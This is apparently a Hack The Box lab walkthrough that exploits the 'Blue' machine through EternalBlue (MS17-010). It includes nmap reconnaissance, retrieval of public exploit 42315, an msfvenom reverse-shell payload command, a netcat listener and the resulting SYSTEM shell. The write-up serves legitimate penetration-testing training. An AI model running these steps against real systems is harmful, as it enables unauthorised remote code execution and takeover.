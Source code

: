 Hack The Box - Blue Walkthrough without Metasploit

# Reconnaissance
First we start by running nmap against the target
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Beginner-Path/Blue]
└─$ sudo nmap -sC -sV -O -oA nmap-inital 10.10.10.40
[sudo] password for darshan: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-08 04:54 EST
Nmap scan report for 10.10.10.40
Host is up (0.18s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008
OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
OS details: Microsoft Windows Server 2008 SP1
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-08T09:56:09
|_  start_date: 2023-01-08T09:39:46
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-08T09:56:08+00:00
|_clock-skew: mean: 3s, deviation: 1s, median: 2s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.66 seconds
                                                
```

We get back the following result showing that nine ports are open:
- Port `139`: running Microsoft Windows `netbiois-ssn`
- Port `445`: running `microsoft-ds`
- Ports `135`, `49152`, `49153`, `49154`, `49155`, `49156` & `49157`: running `msrpc`

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```
sudo nmap -sC -sV -O -p- -oA nmap-full 10.10.10.40
```
We get back the following result. No other ports are open.

Similarly, we run an nmap scan with the `-sU` flag enabled to run a UDP scan (for top 1000 ports).

```
sudo nmap -sU -O -p- -oA udp 10.10.10.40
```

## Enumeration
As usual, we’ll run the general nmap `vulnerability scan scripts` to determine if any of the services are vulnerable.

```
sudo nmap --script vuln -oA vuln 10.10.10.40
```

The box is vulnerable to `EternalBlue`! And guess what the `EternalBlue exploit` does? It gives us system access, so this box won’t be too difficult to solve. If you’re not familiar with `EternalBlue`, it exploits Microsoft’s implementation of the `Server Message Block` (SMB) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to `execute arbitrary code` on the target machine.

## Exploitation

Search for a non Metasploit exploit in the Exploit Database.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Beginner-Path/Blue]
└─$ searchsploit --id MS17-010
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  EDB-ID
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010) | 43970
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                             | 41891
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                          | 42031
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                      | 42315
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                | 42030
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                             | 41987
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
               
```

We’re working with Windows 7 so we’ll use exploit # 42315. Clone the exploit into the working directory.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Beginner-Path/Blue]
└─$ searchsploit -m 42315

  Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42315
     Path: /usr/share/exploitdb/exploits/windows/remote/42315.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/Desktop/HackTheBox/Beginner-Path/Blue/42315.py
```
Rename the copied file to `mysmb.py` for convinience

After looking at the `source code`, we need to do three things:

```
1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.
2. Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).
3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.
```

Using `MSFvenom` to generate a simple executable with a reverse shell payload.

```
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=<Your I.P> LPORT=4444 > eternal-blue.exe
```

Then,  we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed

If you run `enum4linux`, you can see that no login credential is reuired.

```
enum4linux -a 10.10.10.40
```

![blue-1](https://user-images.githubusercontent.com/87711310/211190472-64299661-bae4-4d88-8a76-a587525d0884.png)

Similarly, we’ll add the reverse shell executable location and get the script to execute it.

![blue-2](https://user-images.githubusercontent.com/87711310/211190648-8f9b27de-44fc-45bc-9710-23b3c179a4cd.png)


Now that we’re done all three tasks, setup a listener on your attack machine.
```
nc -nlvp 4444
```
Then run the exploit.

```
python 42315.py 10.10.10.40
```

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Beginner-Path/Blue]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Grabbing the user flag.
```
C:\Windows\system32>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
[REDACTED]
```

Grabbing the root flag.
```
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
[REDACTED]
```

